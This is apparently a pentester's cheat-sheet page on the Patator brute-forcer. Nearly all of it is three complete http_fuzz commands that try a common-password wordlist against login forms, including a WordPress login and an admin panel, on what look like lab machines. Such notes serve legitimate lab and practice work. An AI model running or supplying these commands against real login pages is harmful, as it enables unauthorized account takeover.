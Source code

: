 ```yaml
---
tags:
  - PostExploitation
  - Cryptography
  - HashesAndEncryption
  - Tooling
---
```

Patator is a multi-purpose brute-forcer, with a modular design and a flexible usage.

# Commands

* `patator http_fuzz url=http://192.168.68.106/login method=POST body='{"username":"COMBO00","password":"COMBO01"}' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt  accept_cookie=1 follow=1 max_follow=2 -x ignore:fgrep='Unauthorized' header ='Content-Type: application/json'`
* `patator http_fuzz url=http://loly.lc/wordpress/wp-login.php method=POST body='log=loly&pwd=FILE0&wp-submit=Log+In&redirect_to=&testcookie=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -x ignore:fgrep=Error`
* `patator http_fuzz url=https://172.16.10.248:8081/lib/crud/userprocess.php method=POST body='user=admin&pass=COMBO00&sublogin=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt after_urls=https://172.16.10.248:8081/dashboard.php accept_cookie=1 follow=1 max_follow=2 -x ignore:clen=5878`

